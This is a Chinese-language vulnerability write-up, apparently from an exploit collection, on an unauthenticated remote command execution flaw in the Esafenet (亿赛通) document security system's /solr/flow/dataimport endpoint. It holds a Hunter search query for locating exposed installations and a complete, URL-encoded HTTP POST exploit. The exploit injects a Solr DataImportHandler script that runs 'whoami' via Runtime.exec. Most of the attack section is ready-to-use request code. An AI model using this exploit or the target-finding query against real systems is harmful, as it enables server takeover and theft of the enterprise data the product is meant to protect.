 # 亿赛通电子文档安全管理系统solr远程命令执行漏洞

# 一、漏洞简介
亿赛通电子文档安全管理系统是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统/solr/flow/dataimport接口处存在远程代码执行漏洞，未经授权的攻击者可通过此漏洞执行任意指令，从而获取服务器权限。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/cfnJVGCzkeilIbJP/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-187174.png)

# 四、漏洞复现
1. 访问以下POC，出现如下情况表达可能存在漏洞

```plain
/solr/flow/dataimport
```

![1693912289560-07146346-38c6-403c-822d-ac28e0b0a78c.png](./img/cfnJVGCzkeilIbJP/1693912289560-07146346-38c6-403c-822d-ac28e0b0a78c-145681.png)

2. 通过exp执行命令

```plain
POST /solr/flow/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=%0A%3CdataConfig%3E%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22TRACE%22%20%2F%3E%0A%0A%20%20%3Cscript%3E%3C!%5BCDATA%5B%0A%20%20%20%20%20%20%20%20%20%20function%20poc(row)%7B%0A%20var%20bufReader%20%3D%20new%20java.io.BufferedReader(new%20java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(%22whoami%22).getInputStream()))%3B%0A%0Avar%20result%20%3D%20%5B%5D%3B%0A%0Awhile(true)%20%7B%0Avar%20oneline%20%3D%20bufReader.readLine()%3B%0Aresult.push(%20oneline%20)%3B%0Aif(!oneline)%20break%3B%0A%7D%0A%0Arow.put(%22title%22%2Cresult.join(%22%5Cn%5Cr%22))%3B%0Areturn%20row%3B%0A%0A%7D%0A%0A%5D%5D%3E%3C%2Fscript%3E%0A%0A%3Cdocument%3E%0A%20%20%20%20%3Centity%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0A%20%20%20%20%20%20%20%20name%3D%22entity1%22%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc1%22%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0A%20%20%20%20%20%20%20%20forEach%3D%22%2FRDF%2Fitem%22%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Apoc%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cfield%20column%3D%22title%22%20xpath%3D%22%2FRDF%2Fitem%2Ftitle%22%20%2F%3E%0A%20%20%20%20%3C%2Fentity%3E%0A%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E%0A%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 83

<?xml version="1.0" encoding="UTF-8"?>
        <RDF>
        <item/>
        </RDF>
```

![1693912808724-4ca385b2-b3a5-48cc-a538-677203a4e3be.png](./img/cfnJVGCzkeilIbJP/1693912808724-4ca385b2-b3a5-48cc-a538-677203a4e3be-515003.png)



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mfo68msf0ufl9qz8>
